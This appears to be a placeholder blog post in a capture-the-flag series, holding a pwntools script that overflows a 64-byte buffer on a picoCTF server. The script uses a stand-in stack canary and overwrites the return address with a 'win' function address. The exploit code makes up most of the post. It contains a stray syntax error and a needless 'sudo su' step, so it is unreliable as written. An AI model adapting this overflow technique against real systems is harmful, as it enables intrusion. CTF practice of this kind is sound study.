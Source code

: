 ```yaml
---
layout: post
title: "Post 2"
date: 2024-03-17
categories: CTF
tags: [web-exploitation, reverse-engineering]
author: sam
img_path: assets/img/posts
---
```


Another post. 

> Passwords are good!
{: .prompt-tip }

```python
from pwn import *


host, port = "saturn.picoctf.net", 52235
conn = remote(host, port)

)
buffer_size = 64
canary = "AAAA"  # Replace with the actual canary value
win_address = p32(0x5655625d)  # p32 converts the address to little-endian


payload = b"A" * buffer_size  # Fill the buffer
payload += canary.encode()    # Add the canary
payload += b"B" * 4           # Padding between the canary and the return address
payload += win_address        # Overwrite the return address with the win function address

# Send the payload
conn.sendline(payload)


try:
    response = conn.recvall()
    print(response)
except EOFError:
    print("Received EOFError, which may indicate a failed exploit or closed connection.")


conn.close()


```

```shell
sudo su
python3 payload_script.py

```
{: .nolineno }




![The Lock](gg.webp){:style="display:block; margin-left:auto; margin-right:auto; width:50%;"}
